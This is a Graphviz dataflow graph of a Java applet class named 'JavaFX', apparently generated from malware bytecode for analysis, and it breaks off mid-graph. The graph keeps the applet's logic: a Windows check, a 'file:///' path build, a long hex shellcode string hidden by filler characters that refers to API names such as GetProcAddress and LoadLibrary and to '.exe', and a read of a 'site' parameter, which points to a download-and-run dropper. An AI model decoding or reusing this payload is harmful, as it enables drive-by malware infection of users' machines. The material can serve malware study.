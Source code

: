 digraph "" {
    "r0 := @this: JavaFX"
    "push 47"
    "r0 := @this: JavaFX"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <JavaFX: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <JavaFX: java.lang.String repeat(char,int)>";
    "store.r r293"
    "staticinvoke <JavaFX: java.lang.String repeat(char,int)>"->"store.r r293";
    "push \"osJJJJJ.naJJJmeJ\""
    "store.r r293"->"push \"osJJJJJ.naJJJmeJ\"";
    "push \"J\""
    "push \"osJJJJJ.naJJJmeJ\""->"push \"J\"";
    "push \"\""
    "push \"J\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"YYYYwYYinYYY\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"YYYYwYYinYYY\"";
    "push \"Y\""
    "push \"YYYYwYYinYYY\""->"push \"Y\"";
    "push \"Y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge new java.lang.StringBuilder";
    "return"
    "ifge new java.lang.StringBuilder"->"return";
    "new java.lang.StringBuilder"
    "ifge new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"filessssss:sss/ss/\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"filessssss:sss/ss/\"";
    "push \"s\""
    "push \"filessssss:sss/ss/\""->"push \"s\"";
    "push \"s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r293"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r293";
    "load.r r293"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%Zvvvv%Z%vvZ%vvvvvvvZv%vvvvZvv%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%Zvvvv%Z%vvZ%vvvvvvvZv%vvvvZvv%\"";
    "push \"v\""
    "push \"Z%Zvvvv%Z%vvZ%vvvvvvvZv%vvvvZvv%\""->"push \"v\"";
    "push \"v\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r293";
    "store.r r293"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"50::5::3::51::525:6575::::5::9C::::E:8::\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"50::5::3::51::525:6575::::5::9C::::E:8::\"";
    "push \":\""
    "push \"50::5::3::51::525:6575::::5::9C::::E:8::\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"xxxx000xxxx00x000xxxx5D8xxx3xExD0xD3xxx1xxxxC06xxx4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"xxxx000xxxx00x000xxxx5D8xxx3xExD0xD3xxx1xxxxC06xxx4\"";
    "push \"x\""
    "push \"xxxx000xxxx00x000xxxx5D8xxx3xExD0xD3xxx1xxxxC06xxx4\""->"push \"x\"";
    "push \"x\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qq0q34qqqq03qqqqqq0qqqq780Cq8Bq4qqqq00qqC8B7q01C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qq0q34qqqq03qqqqqq0qqqq780Cq8Bq4qqqq00qqC8B7q01C\"";
    "push \"q\""
    "push \"qq0q34qqqq03qqqqqq0qqqq780Cq8Bq4qqqq00qqC8B7q01C\""->"push \"q\"";
    "push \"q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ADMMMM8MMMB4M0MMMM08MEMB098BMMMM40MMM34MMMMMM8MMD40M7MMMMC8MBMM40MM3C5M6MMM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ADMMMM8MMMB4M0MMMM08MEMB098BMMMM40MMM34MMMMMM8MMD40M7MMMMC8MBMM40MM3C5M6MMM\"";
    "push \"M\""
    "push \"ADMMMM8MMMB4M0MMMM08MEMB098BMMMM40MMM34MMMMMM8MMD40M7MMMMC8MBMM40MM3C5M6MMM\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5hhh7BhhhE5hhhE0hh1hhhh0hh0hhh0hhhh001h\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5hhh7BhhhE5hhhE0hh1hhhh0hh0hhh0hhhh001h\"";
    "push \"h\""
    "push \"5hhh7BhhhE5hhhE0hh1hhhh0hh0hhh0hhhh001h\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aaaaEEBF4Eaa01aaaaa0a000aaa01aEFaaaaaaEaaaa8aaaaD6aaaa01aa000aaa0aa5Fa5E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aaaaEEBF4Eaa01aaaaa0a000aaa01aEFaaaaaaEaaaa8aaaaD6aaaa01aa000aaa0aa5Fa5E\"";
    "push \"a\""
    "push \"aaaaEEBF4Eaa01aaaaa0a000aaa01aEFaaaaaaEaaaa8aaaaD6aaaa01aa000aaa0aa5Fa5E\""->"push \"a\"";
    "push \"a\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"89nnnnEA81C2nnn5E0n1nn00nnnn0nnnn05nn2nnnn6n8n8000nnnnn00nnnn0nnn0nnnnnFF9n54E0nnn10nnnn00089nnnnEnnnA81nnnC25nnnnEn0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"89nnnnEA81C2nnn5E0n1nn00nnnn0nnnn05nn2nnnn6n8n8000nnnnn00nnnn0nnn0nnnnnFF9n54E0nnn10nnnn00089nnnnEnnnA81nnnC25nnnnEn0\"";
    "push \"n\""
    "push \"89nnnnEA81C2nnn5E0n1nn00nnnn0nnnn05nn2nnnn6n8n8000nnnnn00nnnn0nnn0nnnnnFF9n54E0nnn10nnnn00089nnnnEnnnA81nnnC25nnnnEn0\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"10;;00031F;;;;601;;;;C2;;;;8;;;;A;9C;35;;6;;;3020;00;;;;0;;;;80;;FB00;;7;;;;4;;;;068;8;;1;;C;;;;;;;;32;;;;;;46;;;;;;;EB;EEC;;;6043;;;;;;2;;;00;;;;89EA;;;8;1;;;C;;;;2;450;200;0;;052;;;FF95;;;52010;;;;;0;00;;89;;EA81;;;;C;;;;2;;;;\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"10;;00031F;;;;601;;;;C2;;;;8;;;;A;9C;35;;6;;;3020;00;;;;0;;;;80;;FB00;;7;;;;4;;;;068;8;;1;;C;;;;;;;;32;;;;;;46;;;;;;;EB;EEC;;;6043;;;;;;2;;;00;;;;89EA;;;8;1;;;C;;;;2;450;200;0;;052;;;FF95;;;52010;;;;;0;00;;89;;EA81;;;;C;;;;2;;;;\"";
    "push \";\""
    "push \"10;;00031F;;;;601;;;;C2;;;;8;;;;A;9C;35;;6;;;3020;00;;;;0;;;;80;;FB00;;7;;;;4;;;;068;8;;1;;C;;;;;;;;32;;;;;;46;;;;;;;EB;EEC;;;6043;;;;;;2;;;00;;;;89EA;;;8;1;;;C;;;;2;450;200;0;;052;;;FF95;;;52010;;;;;0;00;;89;;EA81;;;;C;;;;2;;;;\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qqqq5q0qqqq0q2000q0525qqq0FqqqF95qqqqqqq5q601000q0qqq6Aq006qqqA00qqqq89EqqqqAqqqqq81Cq2qqqq5Eqqqqq0qqq100qqq0052qqqq89qqEqqqqqAqqqqqqqq81Cqqqqqq27qqq8qqq02qqqq0q00qq0qq526A0q0FFqqDqq06Aqqq0qqqq5q8qq9qEA8qqq1qqqC25Eqqqq0qq1q000qq\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qqqq5q0qqqq0q2000q0525qqq0FqqqF95qqqqqqq5q601000q0qqq6Aq006qqqA00qqqq89EqqqqAqqqqq81Cq2qqqq5Eqqqqq0qqq100qqq0052qqqq89qqEqqqqqAqqqqqqqq81Cqqqqqq27qqq8qqq02qqqq0q00qq0qq526A0q0FFqqDqq06Aqqq0qqqq5q8qq9qEA8qqq1qqqC25Eqqqq0qq1q000qq\"";
    "push \"qqqq5q0qqqq0q2000q0525qqq0FqqqF95qqqqqqq5q601000q0qqq6Aq006qqqA00qqqq89EqqqqAqqqqq81Cq2qqqq5Eqqqqq0qqq100qqq0052qqqq89qqEqqqqqAqqqqqqqq81Cqqqqqq27qqq8qqq02qqqq0q00qq0qq526A0q0FFqqDqq06Aqqq0qqqq5q8qq9qEA8qqq1qqqC25Eqqqq0qq1q000qq\""->"push \"q\"";
    "push \"q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0oo52oFFooo9o55ooA0oo100o0o0ooo8oooo9ooooEA81C25oooE0oo1ooo000o052oooooo6ooo8oooo80000oo0oooo0oooo0FFooooo954E01ooo0ooooooo00089ooooEooooAooo81C25Eo0100oooo0031F6oooo0ooo1Cooooo2oo8ooA9C3oooo5oo6E0ooooo2o00o0oooo080\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0oo52oFFooo9o55ooA0oo100o0o0ooo8oooo9ooooEA81C25oooE0oo1ooo000o052oooooo6ooo8oooo80000oo0oooo0oooo0FFooooo954E01ooo0ooooooo00089ooooEooooAooo81C25Eo0100oooo0031F6oooo0ooo1Cooooo2oo8ooA9C3oooo5oo6E0ooooo2o00o0oooo080\"";
    "push \"o\""
    "push \"0oo52oFFooo9o55ooA0oo100o0o0ooo8oooo9ooooEA81C25oooE0oo1ooo000o052oooooo6ooo8oooo80000oo0oooo0oooo0FFooooo954E01ooo0ooooooo00089ooooEooooAooo81C25Eo0100oooo0031F6oooo0ooo1Cooooo2oo8ooA9C3oooo5oo6E0ooooo2o00o0oooo080\""->"push \"o\"";
    "push \"o\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FB0074lllll0l6l881C324l6llEBllllEElC6lllll04l32ll0ll08lll9ElllAlll81C24ll5l0lll20ll0005lll2lllFFllll9l5l52010llll00089lllEllAl81llllC2lll5llll0l0200lll0llll05llll2lll50llllllFFlll9lll556lll0ll1ll0lllll0l0lll06llA0llll06\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FB0074lllll0l6l881C324l6llEBllllEElC6lllll04l32ll0ll08lll9ElllAlll81C24ll5l0lll20ll0005lll2lllFFllll9l5l52010llll00089lllEllAl81llllC2lll5llll0l0200lll0llll05llll2lll50llllllFFlll9lll556lll0ll1ll0lllll0l0lll06llA0llll06\"";
    "push \"l\""
    "push \"FB0074lllll0l6l881C324l6llEBllllEElC6lllll04l32ll0ll08lll9ElllAlll81C24ll5l0lll20ll0005lll2lllFFllll9l5l52010llll00089lllEllAl81llllC2lll5llll0l0200lll0llll05llll2lll50llllllFFlll9lll556lll0ll1ll0lllll0l0lll06llA0llll06\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"oA0ooo08o9oooooEAo81Cooo2ooo5ooEoooo010000oooo5oo2o89oooEoAooo81ooC2ooAo6o0o2o0oo0oooo0052o6ooA0ooo0FFoooDo0oo6Aooo0589oooEA81ooCooo2ooo5Eo01oooo0oooo0ooo00o52oooFF9oooo5o5Aoo0ooo10000o9oooooDooo5Dooo5Foo5Eooo5ooooA59oo5ooB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"oA0ooo08o9oooooEAo81Cooo2ooo5ooEoooo010000oooo5oo2o89oooEoAooo81ooC2ooAo6o0o2o0oo0oooo0052o6ooA0ooo0FFoooDo0oo6Aooo0589oooEA81ooCooo2ooo5Eo01oooo0oooo0ooo00o52oooFF9oooo5o5Aoo0ooo10000o9oooooDooo5Dooo5Foo5Eooo5ooooA59oo5ooB\"";
    "push \"oA0ooo08o9oooooEAo81Cooo2ooo5ooEoooo010000oooo5oo2o89oooEoAooo81ooC2ooAo6o0o2o0oo0oooo0052o6ooA0ooo0FFoooDo0oo6Aooo0589oooEA81ooCooo2ooo5Eo01oooo0oooo0ooo00o52oooFF9oooo5o5Aoo0ooo10000o9oooooDooo5Dooo5Foo5Eooo5ooooA59oo5ooB\""->"push \"o\"";
    "push \"o\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5wwwww8C30w00www0ww0wwww0www0ww0000w0000w0wwww00wwww00000wwww0wwwww000w0ww000ww0w476574wwww5w4wwww6ww5w6Dwwww7wwwwwwww05w0wwwww61wwww746w8w4wwwwww10w0w4wwwwwC6Fwww6www1wwwwww64wwww4C696www2wwww72www617279www4www100wwwww4wwww765ww74wwww5wwww\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5wwwww8C30w00www0ww0wwww0www0ww0000w0000w0wwww00wwww00000wwww0wwwww000w0ww000ww0w476574wwww5w4wwww6ww5w6Dwwww7wwwwwwww05w0wwwww61wwww746w8w4wwwwww10w0w4wwwwwC6Fwww6www1wwwwww64wwww4C696www2wwww72www617279www4www100wwwww4wwww765ww74wwww5wwww\"";
    "push \"w\""
    "push \"5wwwww8C30w00www0ww0wwww0www0ww0000w0000w0wwww00wwww00000wwww0wwwww000w0ww000ww0w476574wwww5w4wwww6ww5w6Dwwww7wwwwwwww05w0wwwww61wwww746w8w4wwwwww10w0w4wwwwwC6Fwww6www1wwwwww64wwww4C696www2wwww72www617279www4www100wwwww4wwww765ww74wwww5wwww\""->"push \"w\"";
    "push \"w\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"MMMM0MMMM726MFMMM6MMM3MM4M16MM46MM4MMM72MMMM65MMM737MMM3MMM0M057MMMM69MMM6MME45MMMMMMMM7865MMMM63MMMM0MMM0BMMMMMMBMMMM89MMMF289FMMM7MM30MMMCMM0AE75MMMMFMMMD29FMMMM789FMM93MMM1C0BMMME3MMMMCMMMM0000MMM0MMM003BMMMM51BMM02M000MMM0MMMM6MMM6M\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"MMMM0MMMM726MFMMM6MMM3MM4M16MM46MM4MMM72MMMM65MMM737MMM3MMM0M057MMMM69MMM6MME45MMMMMMMM7865MMMM63MMMM0MMM0BMMMMMMBMMMM89MMMF289FMMM7MM30MMMCMM0AE75MMMMFMMMD29FMMMM789FMM93MMM1C0BMMME3MMMMCMMMM0000MMM0MMM003BMMMM51BMM02M000MMM0MMMM6MMM6M\"";
    "push \"MMMM0MMMM726MFMMM6MMM3MM4M16MM46MM4MMM72MMMM65MMM737MMM3MMM0M057MMMM69MMM6MME45MMMMMMMM7865MMMM63MMMM0MMM0BMMMMMMBMMMM89MMMF289FMMM7MM30MMMCMM0AE75MMMMFMMMD29FMMMM789FMM93MMM1C0BMMME3MMMMCMMMM0000MMM0MMM003BMMMM51BMM02M000MMM0MMMM6MMM6M\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AD>>>>0>>>>>>3>>8>5>>>1B02>>000>08B7>0>>>>>7883C>>>>6>1>>>C03B>51B>>0>>>>>>>>200>>>00>8DBD>>1>>F>>0>>200>>>>00>>>>AD03851>>B020>>>>>000>>AB>A>>>>D>>0>>>>3>>>>>>>851>>B0>>>>2>>>000050>>>>A>>>B>A>>>>D0385>1B>>>>>0>2>>>>>>>0>\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AD>>>>0>>>>>>3>>8>5>>>1B02>>000>08B7>0>>>>>7883C>>>>6>1>>>C03B>51B>>0>>>>>>>>200>>>00>8DBD>>1>>F>>0>>200>>>>00>>>>AD03851>>B020>>>>>000>>AB>A>>>>D>>0>>>>3>>>>>>>851>>B0>>>>2>>>000050>>>>A>>>B>A>>>>D0385>1B>>>>>0>2>>>>>>>0>\"";
    "push \">\""
    "push \"AD>>>>0>>>>>>3>>8>5>>>1B02>>000>08B7>0>>>>>7883C>>>>6>1>>>C03B>51B>>0>>>>>>>>200>>>00>8DBD>>1>>F>>0>>200>>>>00>>>>AD03851>>B020>>>>>000>>AB>A>>>>D>>0>>>>3>>>>>>>851>>B0>>>>2>>>000050>>>>A>>>B>A>>>>D0385>1B>>>>>0>2>>>>>>>0>\""->"push \">\"";
    "push \">\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0OOO00OOOOAB5E3OO1DOOBOOAOD5603OOOO8OOOO51OOOB0OOOO2OOOO000089C6OOO8OOO9DOOOO751FOOOOOOCF3A6OOOO5OOOO974OOOO0OOOO45OOOE4OOOO3EBE95OOEOOO9OO3OD1OOOOOOOE00OOOO38OO5OOOO27O0OOOOOO20OOOOOO00031F6OOO96OOOO66AODC1EOOO002O03\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0OOO00OOOOAB5E3OO1DOOBOOAOD5603OOOO8OOOO51OOOB0OOOO2OOOO000089C6OOO8OOO9DOOOO751FOOOOOOCF3A6OOOO5OOOO974OOOO0OOOO45OOOE4OOOO3EBE95OOEOOO9OO3OD1OOOOOOOE00OOOO38OO5OOOO27O0OOOOOO20OOOOOO00031F6OOO96OOOO66AODC1EOOO002O03\"";
    "push \"O\""
    "push \"0OOO00OOOOAB5E3OO1DOOBOOAOD5603OOOO8OOOO51OOOB0OOOO2OOOO000089C6OOO8OOO9DOOOO751FOOOOOOCF3A6OOOO5OOOO974OOOO0OOOO45OOOE4OOOO3EBE95OOEOOO9OO3OD1OOOOOOOE00OOOO38OO5OOOO27O0OOOOOO20OOOOOO00031F6OOO96OOOO66AODC1EOOO002O03\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"OOOO8OOOO5O1OF02O00O0089C6OOOAD03851B0OOO2OO0000OCOOOO3OOEB1OOO0OOOO00OOO000OOOOOOOO0OOOOOOOO000OOOO0OOO00000000O0OOOO0O000OO000000000OO89OOOO851B0OOOO2O0O0OOOO0OO0OO56OOOO57EOOOO8OO58OFFOOFFFOOF5F5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"OOOO8OOOO5O1OF02O00O0089C6OOOAD03851B0OOO2OO0000OCOOOO3OOEB1OOO0OOOO00OOO000OOOOOOOO0OOOOOOOO000OOOO0OOO00000000O0OOOO0O000OO000000000OO89OOOO851B0OOOO2O0O0OOOO0OO0OO56OOOO57EOOOO8OO58OFFOOFFFOOF5F5\"";
    "push \"OOOO8OOOO5O1OF02O00O0089C6OOOAD03851B0OOO2OO0000OCOOOO3OOEB1OOO0OOOO00OOO000OOOOOOOO0OOOOOOOO000OOOO0OOO00000000O0OOOO0O000OO000000000OO89OOOO851B0OOOO2O0O0OOOO0OO0OO56OOOO57EOOOO8OO58OFFOOFFFOOF5F5\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"TTEATTTTB0TTTT1TTTTTCTE803TETTTBTTBTT74TTTT0T2TTTETBETTDTTTTTTTC35T55TT2TTTTT4C4TTTTTTD4FTTT4TTTTE2E4TTT4TTTT4C4TTTTCTTTT00T55TTTT52TTTTTTTT4C4TTTT4TT6F7T76TTTTE6C6FT6TT16TTTT4546F4TT66TTTT9TT6TTTTTTCT6TTT5T4TTTT10TTT07TT0TTT6TTTT466T7TT5TT7T06TTTT4TTT2E6578T6TTT50TTTT0T6TT372TTTT6TTTT1TT73TT682TTTTTE70TTTT68TTT700TTT0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"TTEATTTTB0TTTT1TTTTTCTE803TETTTBTTBTT74TTTT0T2TTTETBETTDTTTTTTTC35T55TT2TTTTT4C4TTTTTTD4FTTT4TTTTE2E4TTT4TTTT4C4TTTTCTTTT00T55TTTT52TTTTTTTT4C4TTTT4TT6F7T76TTTTE6C6FT6TT16TTTT4546F4TT66TTTT9TT6TTTTTTCT6TTT5T4TTTT10TTT07TT0TTT6TTTT466T7TT5TT7T06TTTT4TTT2E6578T6TTT50TTTT0T6TT372TTTT6TTTT1TT73TT682TTTTTE70TTTT68TTT700TTT0\"";
    "push \"T\""
    "push \"TTEATTTTB0TTTT1TTTTTCTE803TETTTBTTBTT74TTTT0T2TTTETBETTDTTTTTTTC35T55TT2TTTTT4C4TTTTTTD4FTTT4TTTTE2E4TTT4TTTT4C4TTTTCTTTT00T55TTTT52TTTTTTTT4C4TTTT4TT6F7T76TTTTE6C6FT6TT16TTTT4546F4TT66TTTT9TT6TTTTTTCT6TTT5T4TTTT10TTT07TT0TTT6TTTT466T7TT5TT7T06TTTT4TTT2E6578T6TTT50TTTT0T6TT372TTTT6TTTT1TT73TT682TTTTTE70TTTT68TTT700TTT0\""->"push \"T\"";
    "push \"T\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r61"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r61";
    "load.r r0"
    "store.r r61"->"load.r r0";
    "push \"sit11e11\""
    "load.r r0"->"push \"sit11e11\"";
    "push \"1\""
    "push \"sit11e11\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <JavaFX: java.lang.String getParameter(java.lang.String)>"
